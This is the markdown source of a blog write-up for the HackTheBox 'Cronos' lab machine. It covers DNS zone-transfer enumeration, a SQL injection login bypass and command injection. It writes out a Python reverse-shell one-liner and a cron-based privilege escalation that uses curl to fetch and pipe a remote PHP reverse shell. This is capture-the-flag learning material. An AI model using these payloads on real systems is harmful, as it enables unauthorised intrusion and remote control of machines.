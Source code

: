 ```yaml
---
layout: post
title:	"Cronos Writeup"
date:	2018-09-20 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Cronos Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/ports.png)

## ii. Enumeration

Navigating to the host in the browser:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser.png)

Default Apache page...

Running a gobuster:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster.png)

`No results...`

In the port scan, we saw DNS open. Let's see if we can find any information:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/nslookup.png)

We got a domain, `cronos.htb`

Let's add `cronos.htb` to our hosts file and attempt to browse to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser2.png)

Running a gobuster scan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster2.png)

Viewing robots.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/robots.png)

Once again, another dead end...

Let's attempt a zone transfer, and see what kind of information we get:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/zonetransfer.png)

`admin.cronos.htb` looks very promising...

After adding `admin.cronos.htb` to `/etc/hosts`, let's navigate to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser3.png)

A login page, lets attempt to bypass using SQLi...

`admin' or '1'='1`

~~~
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/bypass.png)

Access granted.

Looks like we can run traceroute and see the output in the browser.

Let's see if it's vulnerable to command injection:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/commandinjection.png)

We have command injection!

To get a shell, I'm going to use a reverse shell python one-liner:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/revshell.png)

## iii. Privilege Escalation

Based off the name of the machine, and after not having much luck enumerating, let's focus on cron.

Viewing `/etc/crontab`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/crontab1.png)

The last line seems interesting... seems like artisan is being executed by root.

Let's look at the permissions of `/var/www/laravel/artisan`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/artisan.png)

We own the file, and are able to write to it.

Editing artisan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/cron.png)

~~~
<?php
system('curl http://10.10.10.14/rev.php | php')
?>

This will download the php reverse shell from my host, and pipe it into php to execute.

php reverse shell: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

Waiting a couple of seconds, and looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/root.png)

## iv. Conclusion

This box was a great refresher/practice for DNS.

Thanks for reading.

~~~
Sources / Links:
[0]: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
[1]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~


